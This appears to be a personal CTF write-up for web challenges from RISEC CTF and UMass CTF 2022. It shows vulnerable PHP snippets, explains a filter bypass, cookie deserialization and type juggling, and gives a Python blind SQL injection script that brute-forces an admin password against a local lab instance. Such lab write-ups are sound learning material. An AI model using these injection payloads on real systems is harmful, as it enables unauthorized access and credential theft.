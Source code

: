 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# RISEC CTF + UMass CTF 2022

<mark style="color:blue;">`Web Challenge`</mark>

## RISEC CTF&#x20;

### Pretty Horrible Program 1

```
  <?php
  if (isset($_GET['bingus'])) {
    $input = $_GET['bingus'];
    $to_replace = 'bingus';
    $clean_string = preg_replace("/$to_replace/", '', $input);
    echo "<p>Your string is: $clean_string</p>";
    if ($clean_string == $to_replace) {
      echo "<h2 class=\"answer\">Bingus <span style=\"color: green;\">IS</span> your beloved</h2>";
      output_flag();
    } else {
      echo "<h2 class=\"answer\">Bingus <span style=\"color: red;\">IS NOT</span> your beloved</h2>";
    }
  }
  ?>
```

* Notice that $clean\_string genererated by replacing&#x20;
* So that we just input something that after replacing. it's equal to 'bingus'

demo:

![](<../../.gitbook/assets/image (3) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (8) (1) (1).png>)



### Pretty Horrible Program 2

```
class User
  {
    public $role = 'Admin'; 	
}

$default_user = new User;
$_COOKIE = serialize($default_user);
setcookie(
    'user',
    serialize($default_user)
  );
$a=unserialize($_COOKIE);
echo "$_COOKIE"
```

### Pretty Horrible Program 3

```
<?php
  if (isset($_GET['input1']) and isset($_GET['input2'])) {
    if ($_GET['input1'] == $_GET['input2']) {
      print '<h3 class="error">Nice try, but it won\'t be that easy ;)</h3>';
    } else if (hash("sha256", $_GET['input1']) === hash("sha256", $_GET['input2'])) {
      output_flag();
    } else {
      print '<h3 class="error">Your inputs don\'t match</h3>';
    }
  }
  ?>
  <p>See if you can make the sha256 hashes match</p>
  <br />
  <a href="/php3/index.php?source=true">Source Code</a>
  <form method="get">
    <input type="text" required name="input1" placeholder="Input 1" />
    <p>Hash: <?php if (isset($_GET['input1'])) print hash("sha256", $_GET['input1']) ?></p>
    <input type="text" required name="input2" placeholder="Input 2" />
    <p>Hash: <?php if (isset($_GET['input2'])) print hash("sha256", $_GET['input2']) ?></p>
    <input type="submit" />
  </form>
</body>

</html>
<?php
```

Workflow:

* At first, i just try to find around the key work "SHA256 collision" but we got [<mark style="color:blue;">this one</mark> ](https://crypto.stackexchange.com/questions/47809/why-havent-any-sha-256-collisions-been-found-yet)<mark style="color:blue;">,</mark> it takes about ≈3.6×1013 years to find, so that it's not a practical option.
* After that i focused on '==' in php. Searching around and i got [<mark style="color:blue;">this</mark> ](https://www.invicti.com/blog/web-security/php-type-juggling-vulnerabilities/)and [<mark style="color:blue;">this</mark>](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)<mark style="color:blue;"></mark>
* Now you just put \[] in input and get flag.

## UMass CTF

## venting

This challenge ended and the website was turned off. So i build it in docker from [<mark style="color:blue;">here</mark>](https://github.com/UMassCybersecurity/UMassCTF-2022-challenges)<mark style="color:blue;"></mark>

* when you connectn try to see history in burpsuite, you can get the link redirect to the login page
* Now read the hint with 'admin' in user and  password does't have fillter so that mean that may be SQLI. Exactly. that's is blind SQLI
* I solve this challenge by burpsuite as same as [<mark style="color:blue;">this lab</mark>](https://portswigger.net/web-security/sql-injection/blind)<mark style="color:blue;"></mark>

otherway, try to bruteforce by python request:

```
import requests, string

url = "http://localhost:49153/fff5bf676ba8796f0c51033403b35311/login"
s = requests.session()

passwordRetrieve = ""
# ' or (select 'a' from users where username='admin' and length(Password)>36)='a

def solve():
    global passwordRetrieve
    index = 0
    while True:
        for char in string.printable:
            usernamefield = "\\"
            passwordfield = f"' or (select 'a' from users where username='admin' and substr(Password,{index},1)='{char}')='a"
            postParam = {'user': usernamefield, 'pass': passwordfield}
            response = s.post(url, data=postParam).text
            if "Invalid" not in response:
                passwordRetrieve += char
                index += 1
                print(passwordRetrieve)
                break
        if (index == 37):
            break
SELECT * from users WHERE username='admin\' AND Password = ''or 'True'
solve()
```





Thanks for reading. Have a good day :heart: !



Contact:

* <mark style="color:blue;">``</mark><img src="../../.gitbook/assets/image (6) (1) (1).png" alt="" data-size="line"><mark style="color:blue;"></mark>[<mark style="color:blue;">facebook</mark> ](https://www.facebook.com/rong.truong.372)<mark style="color:blue;"></mark>
